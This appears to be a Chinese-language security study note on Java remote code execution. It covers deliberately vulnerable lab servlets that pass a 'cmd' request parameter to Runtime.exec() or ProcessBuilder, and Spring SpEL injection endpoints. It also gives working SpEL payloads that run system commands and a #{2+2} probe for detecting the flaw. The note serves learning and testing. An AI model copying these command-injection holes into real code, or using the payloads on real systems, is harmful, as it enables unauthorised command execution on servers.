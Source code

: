 ```yaml
---
title: RCE-Java
categories:
- Network_Security
- Web
- RCE-Java
tags:
- Network_Security
---
```

# RCE-Java

## 1. `exec()` 执行系统命令

1. 涉及函数 `Runtime.getRuntime().exec()`

2. 有漏洞的代码：
    ```java
    package com.endlessshw.controller;
    
    import jakarta.servlet.ServletException;
    import jakarta.servlet.annotation.WebServlet;
    import jakarta.servlet.http.HttpServlet;
    import jakarta.servlet.http.HttpServletRequest;
    import jakarta.servlet.http.HttpServletResponse;
    
    import java.io.BufferedReader;
    import java.io.IOException;
    import java.io.InputStreamReader;
    import java.nio.charset.StandardCharsets;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: 使用 Runtime.getRuntime().exec() 来执行系统命令
     * @date 2023/4/4 14:34
     */
    @WebServlet("/exec")
    public class RceExecController extends HttpServlet {
        @Override
        protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
            request.setCharacterEncoding(String.valueOf(StandardCharsets.UTF_8));
            response.setCharacterEncoding(String.valueOf(StandardCharsets.UTF_8));
            response.setContentType("text/html; charset=utf-8");
    
            String cmd = request.getParameter("cmd");
            // 给页面回显内容的变量
            StringBuilder stringBuffer = new StringBuilder();
            // 用包装类获取命令执行后的结果流
            BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(cmd).getInputStream()));
            // 用于记录一行内容的变量
            String lineContext;
            while ((lineContext = bufferedReader.readLine()) != null) {
                stringBuffer.append(lineContext).append("<br />");
            }
            bufferedReader.close();
            response.getWriter().println(stringBuffer);
        }
    }
    ```

3. `Runtime` 类：

    > Every Java application has a single instance of class Runtime that allows the application to interface with the environment in which the application is running. The current runtime can be obtained from the getRuntime method.

4. 该靶场运行结果如下：
    ![image-20230404145024885](image-20230404145024885.png)

## 2. `ProcessBuilder` 对象通过 `start()` 方法执行系统命令

1. 涉及的类和函数：`ProcessBuilder` 类、`ProcessBuilder` 对象的 `start()` 方法。

2. 实际上，`Runtime.getRuntime().exec()` 的本质上是调用了 `ProcessBuilder` 的 `start()` 方法：
    ![image-20230404145530933](image-20230404145530933.png)

3. 靶场：

    ```java
    package com.endlessshw.controller;
    
    import jakarta.servlet.ServletException;
    import jakarta.servlet.annotation.WebServlet;
    import jakarta.servlet.http.HttpServlet;
    import jakarta.servlet.http.HttpServletRequest;
    import jakarta.servlet.http.HttpServletResponse;
    
    import java.io.BufferedReader;
    import java.io.IOException;
    import java.io.InputStreamReader;
    import java.nio.charset.StandardCharsets;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: 使用 ProcessBuilder.start() 来执行系统命令
     * @date 2023/4/4 14:53
     */
    @WebServlet("/pb")
    public class RcePbController extends HttpServlet {
        @Override
        protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
            request.setCharacterEncoding(String.valueOf(StandardCharsets.UTF_8));
            response.setCharacterEncoding(String.valueOf(StandardCharsets.UTF_8));
            response.setContentType("text/html; charset=utf-8");
    
            String cmd = request.getParameter("cmd");
            StringBuilder stringBuilder = new StringBuilder();
    
            String[] cmdWithArgs = {cmd};
            // processBuilder 的实例化需要传入 list 或者 String[]，用来存放一条命令及其参数
            ProcessBuilder processBuilder = new ProcessBuilder(cmdWithArgs);
            // 执行命令
            Process process = processBuilder.start();
            // 获取被包装的 process 执行结果流
            BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(process.getInputStream()));
            // 用于记录一行内容的变量
            String lineContext;
            while ((lineContext = bufferedReader.readLine()) != null) {
                stringBuilder.append(lineContext).append("<br />");
            }
            bufferedReader.close();
            response.getWriter().println(stringBuilder);
        }
    }
    ```

4. 结果：
    ![image-20230404150816050](image-20230404150816050.png)

## 3. 使用 SpEL 表达式

### 3.1 不带回显的情况

1. > Spring 官方为我们提供了一套非常高级 SpEL 表达式，通过使用表达式，我们可以更加灵活地使用 Spring 框架。

2. 使用 SpringBoot 搭建一个简易的靶场：
    ```java
    package com.endlessshw.spelrce.controller;
    
    import org.springframework.expression.Expression;
    import org.springframework.expression.spel.standard.SpelExpressionParser;
    import org.springframework.web.bind.annotation.GetMapping;
    import org.springframework.web.bind.annotation.RequestMapping;
    import org.springframework.web.bind.annotation.RestController;
    
    import java.util.Objects;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: SpEL RCE 靶场
     * @date 2023/4/4 15:15
     */
    @RestController
    @RequestMapping("/rce")
    public class SpEL_RceController {
        @GetMapping("/spel")
        public String SpELRce(String cmd) {
            // 创建一个 Spel 表达式解析器
            SpelExpressionParser spelExpressionParser = new SpelExpressionParser();
            // 根据传入的 cmd 来创建表达式
            Expression expression = spelExpressionParser.parseExpression(cmd);
            return Objects.requireNonNull(expression.getValue()).toString();
        }
    }
    ```

3. payload:
    `http://localhost:8080/rce/spel?cmd=T(java.lang.Runtime).getRuntime().exec(%22control.exe%22)`
    cmd 传入的内容基本上和 Java 语法相似。由于 `Runtime` 是外部类，因此还需要 `T(类的全路径名).方法()` 来执行代码。
4. 结果：
    ![image-20230404153506298](image-20230404153506298.png)

### 3.2 带回显的情况 -- （少，前提是需要代码将 expression 的结果给 return 出来）

1. 上述靶场中，只使用了最基本的 SpEL 表达式解析器。如果源码中构造了上下文来丰富功能，那么攻击者此时也可以利用上下文“丰富功能”的特性，将结果打印出来。

2. 靶场代码：
    ```java
    @GetMapping("/spelcontext")
    public String SpELRceWithContext(String cmd) {
        // 创建一个 Spel 表达式解析器
        SpelExpressionParser spelExpressionParser = new SpelExpressionParser();
        // 构造上下文，准备表达式需要的上下文数据（用于自定义变量、函数、类型转换器等）
        // Create a new TemplateParserContext with the default "#{" prefix and "}" suffix.
        // 翻译过来就是用 #{} 创建上下文环境，里面的内容就是上下文
        TemplateParserContext templateParserContext = new TemplateParserContext();
        // 根据传入的 cmd 来创建表达式
        Expression expression = spelExpressionParser.parseExpression(cmd, templateParserContext);
        return Objects.requireNonNull(expression.getValue()).toString();
    }
    ```

3. Payload（如果通过 GET 传，要 Url 编码一下）:
    `#{new java.util.Scanner(new java.lang.ProcessBuilder("cmd", "/c", "dir").start().getInputStream(), "GBK").useDelimiter("x").next()};`
4. Payload 解析：
    1. 创建一个 Scanner 类
    2. 用 Scanner 的构造函数：
        ![image-20230404164227873](image-20230404164227873.png)
    3. 使用 `useDelimiter("")` 方法来划界，然后用 `next()` 方法来返回 `Scanner` 中扫描的字符串。
        这里 `useDelimiter("")` 内的内容尽量复杂，这样它分界就分一个界，然后 `next()` 获取全部内容。
5. 当然，如果出现这种情况，可以先使用 `#{算数表达式}` 来看其是否将表达式的结果返回，从而判断其是否存在 RCE：
    Payload：`#{2+2}`（记得 Url 编码）
    ![image-20230404165810531](image-20230404165810531.png)

